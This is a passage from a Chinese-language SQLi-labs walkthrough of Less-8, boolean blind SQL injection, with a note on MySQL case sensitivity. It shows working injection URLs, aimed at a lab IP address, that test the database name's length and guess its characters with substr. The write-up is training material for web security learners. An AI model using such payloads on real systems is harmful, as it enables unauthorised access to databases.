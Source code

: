   ```
  if __name__ == "__main__":
      asyncio.run(main())
  
  ```

  

****

### Less-8(布尔盲注->`'`闭合)

- 盲注说白了就是盲猜,猜对了就会显示`You are in ....`

```sql
#判断数据库名长度8-->security
http://8.137.60.154:8082/Less-8/?id=1'and length(database())=8 --+
```

![image-20241007032504874](./assets/image-20241007032504874.png)

```sql
#获取数据库名
http://8.137.60.154:8082/Less-8/?id=1'and substr(database(),1,1)="s" --+
```

- 在 MySQL 中，数据库名的大小写敏感性取决于操作系统和 MySQL 的配置。

  > **操作系统影响**

     - **在 Windows 上**：Windows 的文件系统是 **大小写不敏感的**，因此在 Windows 上 MySQL 默认对数据库名、表名不区分大小写。这意味着：
       - `SELECT * FROM MyDatabase.table` 和 `SELECT * FROM mydatabase.table` 是等效的。
     
     - **在 Linux/Unix 上**：这些系统的文件系统通常是 **大小写敏感的**，因此 MySQL 在 Linux/Unix 上默认对数据库名和表名是 **区分大小写的**。也就是说：
       - `MyDatabase` 和 `mydatabase` 被视为两个不同的数据库。

  > **MySQL 配置选项**

     MySQL 提供了一个配置参数 `lower_case_table_names`，可以控制数据库名和表名的大小写敏感性：

     - **0 (大小写敏感)**：数据库名和表名区分大小写（通常在 Linux/Unix 上）。
     - **1 (大小写不敏感)**：数据库名和表名不区分大小写，所有的表名和数据库名会被存储为小写（通常在 Windows 上）。
     - **2 (保存定义时的大小写，不区分大小写)**：查询时不区分大小写，但存储时保持定义时的大小写。

     你可以在 MySQL 配置文件 `my.cnf` 或 `my.ini` 中设置这个参数：
     ```ini
     [mysqld]
     lower_case_table_names = 1  # 设置为 1 表示不区分大小写
     ```
